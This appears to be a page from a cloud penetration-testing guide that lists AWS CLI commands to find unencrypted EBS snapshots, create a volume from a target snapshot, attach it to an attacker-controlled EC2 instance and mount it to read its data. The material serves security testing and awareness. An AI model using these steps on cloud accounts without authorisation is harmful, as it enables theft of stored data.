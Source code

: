 # Unencrypted EBS

## Cloudshell snapshot enumeration

```
aws ec2 describe-snapshots    #All
aws ec2 describe-snapshots --snapshot-ids <id>    #by snap id
aws ec2 describe-snapshots --filters "Name=volume-id,Values=<volume id>" #by volume id
```

Find unencrypted snapshots

```
aws ec2 describe-snapshots --filters "Name=encrypted,Values=false"
```

## Mount EBS in instance and access data

To access the snapshot we need to mount it in a controlled EC2 instance. After logging in execute the following steps.

Enumerate the current EC2 instance id, region and availability zone. See[ IMDS section](./#imds) for documentation.

Create a new volume from the target EBS. Save the volume id because we'll need it in the next step

```
aws ec2 create-volume --snapshot-id <target snapshot id> --volume-type gp3 --region <ec2 region> --availability-zone <ec2 az id>
```

Attach the volume to the EC2 instance

```
aws ec2 attach-volume --region us-east-1 --device /dev/sdh --instance-id <instance id> --volume-id <created volume id>
```

Verify that the volume has been mounted successfully and create a mount point. Even if the command succeeds it takes a while to attach the volume to the instance. If you don't see the new disk wait a couple of minutes

```
sudo fdisk -l    #we expect to see a new disk

sudo mkdir /snapshot-recovery
sudo mount /dev/nvme1n1 /snapshot-recovery
cd /snapshot-recovery
```
